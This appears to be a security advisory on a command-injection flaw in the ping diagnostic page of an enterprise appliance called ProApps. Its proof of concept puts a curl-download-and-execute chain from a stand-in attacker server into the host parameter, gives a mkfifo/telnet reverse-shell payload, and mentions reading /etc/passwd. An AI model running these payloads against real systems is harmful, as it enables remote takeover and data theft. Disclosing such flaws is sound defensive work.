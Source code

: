 # Description Item:
```
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Remote Code Execution

## Description Vulnerability:
The vulnerability occurs because a user can inject system commands through the application using the ping functionality by adding a sequence command operator in Unix environments, such as (;, &&, or |).
To exploit the vulnerability it's necessary to be authenticated. The user must belong to a permission group called 'Status' and have 'Modified' Permission.
It is also important to mention that successful exploitation requires bypassing input sanitization. The application validates user input only on the front end, making it necessary to send the request through a network proxy, for example. In this way the limitations imposed by the application to be bypassed."

## Exploitation:
After authentication, it will be necessary to access a page called `sta_rede.diagnostico_ping` (http(s)://vulnerablepage.index.php?page=sta_rede.diagnostico_ping&task=view).
This page provides a function to perform an ICMP request to an arbitrary host. To learn more about the ping utility and the ICMP protocol (Request and Reply), please refer to the RFC mentioned in the references section.

The application sends a POST request with the parameters host, testar_pacote, and ttl, where `host` is the target of the ping, `testar_pacote` specifies the number of ICMP requests to send, and `TTL` is time to Live (TTL) for the packets. Upon send the request the application executes the following command on the Unix system: `ping -c $testar_pacote $host`.

This is where an attack vector is noticed. A user can exploit the vulnerability by sending a malicious POST request through a network proxy to bypass input sanitization by appending one of the sequence command operators (;, &&, or |) to the host parameter, the web application will execute the ping command mentioned above, followed by an additional command. For example, this could include reading sensitive files like `/etc/passwd`, `/etc/master.passwd` or get a reverse shell or execute arbitrary commands.

## Reverse Shell POC:
HTTP POST Request to `sta_rede.diagnostico_ping`:
`page=sta_rede.diagnostico_ping&host=x.x.x.x;curl -O http://attackserver/maliciousfile.sh; chmod +x maliciousfile.sh; ./maliciousfile.sh&testar_pacote=1&ttl=64`

### Maicious file content:
TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF

By listening on the specified port with Netcat, a reverse shell is successfully opened.

## Impact Vulnerability:
RCE (Remote Code Execution) vulnerabilities allow an attacker to execute arbitrary code on a remote device, it can lead in a Full System Compromise, Data Breach, Lateral Movement, Malware Deployment and Reputational and Financial Damage.

### References:
- https://www.rfc-editor.org/rfc/rfc777
- https://www.checkpoint.com/cyber-hub/cyber-security/what-is-remote-code-execution-rce/
